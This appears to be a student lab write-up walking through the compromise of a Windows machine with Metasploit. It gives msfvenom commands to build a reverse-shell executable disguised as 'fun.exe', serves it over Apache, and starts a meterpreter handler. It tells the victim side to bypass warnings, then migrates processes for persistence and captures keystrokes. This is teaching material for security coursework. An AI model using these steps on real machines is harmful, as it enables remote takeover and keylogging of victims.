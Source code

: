 # EX 06: COMPROMISING-WINDOWS-USING -METASPLOIT:
Compromising windows using Metasploit
## Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![alt text](image.png)
```
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
```
## OUTPUT:
![alt text](image-1.png)
```
copy the fun.exe into the apache /var/www/html folder
```
## OUTPUT:
![alt text](image-2.png)

```
Start apache server
sudo systemctl apache2 start
```
## OUTPUT:
![alt text](image-3.png)
```
Check the status of apache2
```
## OUTPUT:
![alt text](image-4.png)
```
Invoke msfconsole:
```
## OUTPUT:
![alt text](image-5.png)

```
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
```

![alt text](image-6.png)
```
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
```

![alt text](image-7.png)
```
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
```

![alt text](image-8.png)
```
Bypass any warning boxes, double-click the file, and allow it to run.
```


![alt text](image-9.png)
```
On kali give the command exploit
```


![alt text](image-10.png)
```
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
```

![alt text](image-11.png)

```
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
```

![alt text](image-12.png)

```
Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
```

![alt text](image-13.png)

![alt text](image-14.png)
```
keyscan_dump	Shows the keystrokes captured so far
```

![alt text](image-15.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
